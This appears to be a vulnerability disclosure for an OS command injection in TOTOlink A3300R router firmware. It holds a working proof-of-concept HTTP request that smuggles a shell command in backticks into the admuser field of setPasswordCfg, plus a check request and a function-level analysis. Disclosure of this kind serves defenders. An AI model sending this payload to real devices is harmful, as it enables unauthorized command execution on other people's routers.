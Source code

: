 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability Description
When deal with setPasswordCfg request, admuser parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 106
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/changepwd.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"admuser":"admin`ls>/web/cmdi.txt`","admpass":"admin123","origPass":"admin","topicurl":"setPasswordCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_414BE4 will handle the setPasswordCfg request. sub_414BE4 firstly get admuser from request body, then pass to Uci_Set_Str function.

![ana1](img/ana1.jpg)

Uci_Set_Str function Splicing uci command, and pass to CsteSystem function.

![ana2](img/ana2.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)
